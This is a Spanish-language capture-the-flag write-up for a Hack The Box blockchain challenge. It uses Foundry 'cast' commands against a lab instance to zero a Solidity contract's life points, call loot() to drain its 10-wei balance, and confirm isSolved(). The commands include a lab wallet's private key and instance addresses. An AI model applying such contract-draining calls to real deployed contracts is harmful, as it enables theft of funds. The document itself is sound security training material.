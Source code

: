 # htb-survival-of-the-fittest🦖
Hack The Box/Blockchain Challenge — Explotación de Smart Contract (Solidity)

Antes de comenzar el reto, fue necesario instalar Foundry, un framework de desarrollo para smart contracts en Solidity que permite interactuar con contratos ya desplegados. Puedes encontrarlo en su documentación oficial, o accediendo a: 

https://getfoundry.sh/
![Captura de pantalla 2025-06-22 154708](https://github.com/user-attachments/assets/62831ee1-bc54-43f9-aaa9-345dbb410ff8) <br><br>

El entorno de este reto corre en una red privada con RPC personalizado. Cada vez que reinicias el challenge, se te asigna una IP y puerto únicos, visibles en la sección "Connection" de la web del challenge. <br><br>

![Captura de pantalla 2025-06-22 154537](https://github.com/user-attachments/assets/87efd4bf-69dd-4114-b042-0da98e93f87c)
![Captura de pantalla 2025-06-22 160606](https://github.com/user-attachments/assets/bcb05e3e-7c58-410c-bc36-b1bb2cc3ccbe)


⚠️ La IP y el puerto que aparecen aquí son distintos a los tuyos. Asegúrate de copiar los datos actuales desde tu instancia en HTB.

~ Contratos proporcionados ~

![Captura de pantalla 2025-06-22 163301](https://github.com/user-attachments/assets/91f406ce-8298-4d87-ab69-2d4e94272159)

-Setup.sol
Este contrato crea una instancia de Creature.
Tiene una función isSolved() que devuelve true si Creature tiene balance == 0.

```
function isSolved() public view returns (bool) {
    return address(TARGET).balance == 0;
}
```

-Creature.sol
Este es el contrato principal del reto. Tiene una vida (lifePoints) inicial de 20. Permite atacarlo, y si su vida llega a 0, se puede llamar loot() para vaciar su balance.
```
isSolved(): Devuelve true si el contrato Creature ya no tiene saldo y nuestro ataque fue exitoso.
```
Conclusión: El reto consiste en interactuar con un contrato llamado Creature, que comienza con 20 puntos de vida (lifePoints) y contiene una función loot() que permite retirar su balance únicamente cuando sus puntos de vida llegan a cero. El objetivo es reducir 
su vida a 0 y vaciar su balance (inicialmente con 10 wei), de modo que la función isSolved() del contrato Setup retorne true.

![Captura de pantalla 2025-06-22 165903](https://github.com/user-attachments/assets/fdea670d-b208-486d-b12a-8d111ecadc63)
Estoy usando cast send para enviar una transacción.

```
cast send \
  --rpc-url http://94.237.48.12:43003/rpc \
  --private-key 0xbafd5876d4a4ac29bff3db7837c86f996c9322bacd734e0d242aaca015053a35 \
  0x844e738D927Ae2F465fC69C69eD9A7EC1E0a3C4f \
  "strongAttack(uint256)" 20
```
1. --rpc-url: Dirección RPC del nodo donde se corre el reto
2. --private-key: Clave privada de tu wallet
3. Dirección del contrato	Donde se envía la transacción (Creature o Setup)
4. "strongAttack(uint256)" 20	Llama a strongAttack con 20 de daño para dejar al Creature con 0 vida.
strongAttack(20) es una función del contrato Creature que reduce sus lifePoints en 20.

Como empieza con 20, al hacer esto queda con 0 vida.

Al ejecutarlo, se guarda en el estado del contrato que la Creature está "muerto".

![Captura de pantalla 2025-06-22 170020](https://github.com/user-attachments/assets/e8819347-66e2-4072-9d11-be34fbe9a201)
```
cast send \
  --rpc-url http://94.237.48.12:43003/rpc \
  --private-key 0xbafd5876d4a4ac29bff3db7837c86f996c9322bacd734e0d242aaca015053a35 \
  0x844e738D927Ae2F465fC69C69eD9A7EC1E0a3C4f \
  "loot()"
```
1. "loot()"	Reclama el balance del contrato si su vida es 0

loot() está protegida por un require(lifePoints == 0) ~ solo puede llamarse si mataste al Creature.

Como ya lo hice, la función transfiere todo el balance del contrato (10 wei) a mi wallet.

![Captura de pantalla 2025-06-22 170152](https://github.com/user-attachments/assets/cc11db3f-39d8-49dc-842e-823d2fdde5f9)
```
cast call \
  --rpc-url http://94.237.48.12:43003/rpc \
  0x1e5B512Fe445d623446E7c5B114f4f4142c59AB3 \
  "isSolved()"
  ```
 
Uso cast call (llamada de solo lectura) para consultar si el reto fue resuelto.
El contrato Setup tiene una función isSolved() que devuelve true cuando el Creature tiene balance == 0.

Como hice loot(), el contrato se quedó sin fondos, por lo tanto, devuelve 1 (que significa true).
Así que... ¡felicidades! El reto ya está resuelto. GGs!

~ Dirigete hacía la URL y escribe /flag 

![Captura de pantalla 2025-06-22 171522](https://github.com/user-attachments/assets/5df6324d-72da-48f2-bbe9-ba6550cb9000)

![Captura de pantalla 2025-06-22 154442](https://github.com/user-attachments/assets/56b73028-33c1-41d4-84ae-9f9252ca68ed)




